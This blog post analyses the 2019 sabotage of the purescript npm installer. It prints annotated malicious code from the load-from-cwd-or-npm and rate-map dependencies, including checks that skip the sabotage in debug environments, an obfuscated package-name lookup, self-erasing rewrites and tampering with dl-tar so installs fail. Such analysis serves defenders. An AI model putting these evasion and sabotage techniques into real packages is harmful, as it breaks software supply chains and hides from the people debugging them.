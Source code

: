 ```yaml
---
layout: post
title: My Favourite Dep Malware PureScript NPM Installer
subtitle: A tale of a really cool piece of malware you probably haven't heard of
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: /assets/img/post5/npm-installer.png
share-img: /assets/img/post5/npm-installer.png
tags: [supplychain, sdlc]
---
```


#### Background


In July 2019, code was added to an upstream of the [`purescript` npm installer](https://www.npmjs.com/package/purescript) which sabotaged the completion of the installation process in a particularly interesting way. The subterfuge was particularly difficult to uncover/debug, taking 5 days for some of the most talented and skilled npmjs devs almost 5 days to unravel. It wouldn't be unfair to say that this event "stumped" (their words, not mine) some of the most talented and well versed engineers in this space.
It's my favourite dep malware, not because it resulted in some epic hack, but because it was so well executed by somebody with an innate understanding of the downstream landscape.

The malware takes advantage of how downstream projects load in the affected code, it uses conditional exploitation logic to hamper debug efforts, and uses just the right level of obfuscation to not immediately look suspect (no super sus looking B64'd blobs here). The malicious software also cleans up after itself.

In this post I hope to step through just how all this took place, so maybe we can all be impressed and together. This particular event got very little coverage, so hopefully you find reading about it notable even though it was a little while ago.

My colleagues really like it when I annotate malware for them, particularly side-by-side, so here's an attempt at posting in that format.

#### Timeline



#### What you're looking at / code intent

The samples below both sabotage the `purescript`  npm installer process to prevent it running successfully under certain conditions.





####   The Details: exploit version 1 `load-from-cwd-or-npm@3.0.2`

You can grab a copy of the dependency off of my repo here:  [`load-from-cwd-or-npm@3.0.2`](https://github.com/5stars217/My_Fav_Malware/tree/main/load-from-cwd-or-npm-3.0.2)

Load up a editor and open `load-from-cwd-or-npm@3.0.2` index.js file.

Check out lines 50 - 83: - I am going to #annotate the below snippet for you, watch out for the comments (#) in the code snippet.
The below code is designed to determine the environment it is running in, and decide what action to take.

`const tasks = [PassThrough];`

    //Create tasks array containing the Passthrough Stream Constructor.
    //Call tasks.unshift twice, so that it winds up at index 2 later.

  ``if (argLen === 2) {
     if (typeof args[1] !== 'function') {
        throw new TypeError(`Expected a function to compare two package versions, but got ${
          inspectWithKind(args[1])
    }.`);
  }``

  `} else {`

    // call  tasks.unshift 1

  `tasks.unshift(resolveSemverFromNpm);

  }`

      //call tasks.unshift 2. Now the PassThrough constructor is at index 2 in the tasks array.

`tasks.unshift(resolveFromNpm(modulePkgId));``

`try {
  const results = await Promise.all(tasks);
  let parent = module;`

    //Here comes a do-while loop that works out how the code is being run,
      //by inspecting the parent property of each module in the chain.
        //Check out the path.endsWith("cli")


`do {   
 parent = parent.parent;`

  `try {
    const {path} = parent;`

    //the attacker is deciding whether or not to run the exploit code,
    //by checking on the version of the purescript npm installer,
    //and if there is a .git working directory.  
    //If the code detects a .git working directory, it'll skip the exploit.
    //This is because .git directories aren't present in production environments,
    //so it makes debugging this issue way harder.
    // The intent is to  determine if a particular version of an installer is being run,
    //and if the code is being run in a environment where it could be easily debugged!



`if (path.endsWith('cli') || [path, dirname(path)].some(dir => existsSync(resolve(dir, '.git')))) {
      parent = 'npm';
      break;
    }
  } catch (_) {}
} while (parent);`

    //The purpose of this parent variable is just the layup for the exploit code if
      //the above conditions are met to allow for it.


`if (typeof parent !== 'string') {
    return results[2];
}`


    //here's that [2] what's happening here is an if statement
    //returning the PassThrough constructor
    //in the case where the malicious code is being run,
    //this breaks a related function to pull down some
    //packages to complete the building of the software:


`const request = loadFromCwdOrNpm("request");
request("https://github.com/.../archive.tar.gz").pipe(...);`




#### The Details: exploit version 2 `rate-map@1.0.3`

You can grab a copy of the dependency off of my repo here:  [`rate-map@1.0.3`](https://github.com/5stars217/My_Fav_Malware/tree/main/rate-map-1.0.3/package)

Things get a little spicier from this point on. This version of the exploit contains the same `do-while` loop decision gate on exploitation, but it includes some significant upgrades.

`let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");`


    //You'll see the same check here if the code is running in a debug or non production environment.
    //But it'll also check for the presence of the `dl-tar` package on local filesystem via obfuscation:


`do {
  parent = parent.parent;
  try {
    const { path: path } = parent;
    if (
      path.endsWith("cli") ||``

``[path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {`

      `parent = "npm";
       break;
    }
  } catch (_) {}

`} while (parent);

if (typeof parent !== "string") {


  const px = require.resolve(``

      // `Buffer.from` obfuscates the check for the `dl-tar` package on local filesystem.


`Buffer.from([100, 108, 45, 116, 97, 114]).toString()
  );`

      //store the `index.js` from `dl-tar` in the `px` variable in the next block, which will rewrite the current file to remove the malicious code!

  `try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}`


      //this next block replaces any lines in `dl-tars`'s `index.js` file to match the regex `/\n\s*cb\(null, chunk\` with empty strings, the result is that `dl-tar` users can't install the project.


  `try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
}`



#### Final Notes

I intentionally skipped over some background information surrounding the disagreements between authors of `purescript` and `load-from-cwd-or-npm` etc. I just think the techniques used particularly  in `rate-map@1.0.3` are great uses of light (but effective) obfuscation and conditional exploitation.
